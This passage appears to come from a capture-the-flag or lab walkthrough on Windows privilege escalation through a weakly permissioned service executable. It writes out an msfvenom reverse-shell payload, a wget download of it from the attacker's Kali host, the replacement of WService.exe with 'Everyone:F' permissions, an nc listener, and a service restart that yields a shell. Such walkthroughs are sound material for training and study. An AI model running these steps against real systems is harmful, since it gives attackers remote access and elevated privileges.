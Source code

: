 **Victim(cmd)**

```
icacls C:\PROGRA~2\SYSTEM~1\WService.exe
```

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4445 -f exe-service -o rev-svc.exe
python2 -m SimpleHTTPServer 81
```

**Victim(Powershell)**

```
wget http://$KALI:81/rev-svc.exe -O rev-svc.exe
```

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well.

**Victim(Powershell)**

```
cd C:\PROGRA~2\SYSTEM~1\
move WService.exe WService.exe.bkp
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
icacls WService.exe /grant Everyone:F
```

**Kali**

```
nc -lvp 4445
```

**Note:** PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges:

**Victim(cmd)**

```
sc stop windowsscheduler
sc start windowsscheduler
```
